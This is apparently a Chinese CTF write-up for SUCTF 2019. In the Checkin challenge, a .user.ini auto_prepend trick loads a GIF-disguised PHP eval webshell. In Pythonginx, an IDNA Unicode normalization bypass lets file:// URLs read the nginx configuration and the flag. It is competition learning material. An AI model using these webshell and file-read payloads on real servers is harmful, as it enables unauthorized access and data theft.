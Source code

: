 # SUCTF 2019

## 0x01 Checkin

00 0a后缀无法绕过。

文件头监测使用GIF89a

内容过滤<?使用类脚本语法写入php代码

文件夹下有index.php，提示利用``.user.ini``写图片马

```
GIF89a
auto_prepend_file=233.gif
```

```
GIF89a
<script language="php"> 
@eval($_REQUSET['eki']);
</script>
```

用蚁剑连上，或者直接写system("cat \flag")

### 参考资料

user.ini文件构成的PHP后门

[https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

## 0x09 [SUCTF 2019]Pythonginx

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

这里利用的是"idna"编码解码的问题

```
suctf.c℆ -> suctf.cc/u
```

利用file://协议读文件，提示了nginx

```
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
```

```
file://suctf.c℆sr/local/nginx/conf/nginx.conf
->
server { listen 80; location / { try_files $uri @app; } location @app { include uwsgi_params; uwsgi_pass unix:///tmp/uwsgi.sock; } location /static { alias /app/static; } # location /flag { # alias /usr/fffffflag; # } }

file://suctf.c℆sr/fffffflag
```



### 参考资料

nginx重要目录：

[https://www.jianshu.com/p/e64539590865](https://www.jianshu.com/p/e64539590865)

Unicode vulnerabilities:

[https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)